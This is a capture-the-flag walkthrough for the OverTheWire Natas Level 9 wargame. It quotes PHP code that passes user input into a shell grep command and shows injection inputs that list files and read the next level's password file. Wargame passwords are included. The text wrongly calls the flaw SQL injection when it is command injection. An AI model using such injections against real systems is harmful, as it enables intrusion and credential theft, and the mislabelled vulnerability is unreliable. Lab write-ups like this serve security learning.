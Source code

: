 # Natas Level 9

## 🧪 Credentials

- **URL**: `http://natas9.natas.labs.overthewire.org`
- **Username**: `natas9`
- **Password**: `ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t`

---

## 🖥️ Steps

1. Login to the website.
2. go for the source. here is the important part. `needle` is the variable which has our input secret. we see that here `passthru("grep -i $key dictionary.txt");` it uses the `$key` to search in the `dictionary.txt`. here is the problem this line of code `grep -i $key dictionary.txt` has a high-level security issue which still today happens alot. i won't deep dive into it cause it's a walkthrough. search `sql injection` in yt you'll know.  
```
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
3. let's say i submit a word like `dog` in the code it'll run `passthru("grep -i dog dictionary.txt");`. now i will submit `;ls #` and in the code it'll be like `passthru("grep -i ;ls # dictionary.txt");`. the `grep -i ;` part will do nothing. it'll run `ls` and the rest has been commented.
4. if you do as i said you'll see this output.
```
Output:

dictionary.txt
index-source.html
index.php
```
5. we know that the password are saved in the `/etc/natas_webpass` dir. so i'll run the `; cat /etc/natas_webpass/natas10 #` to get the pass.
```
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```
---
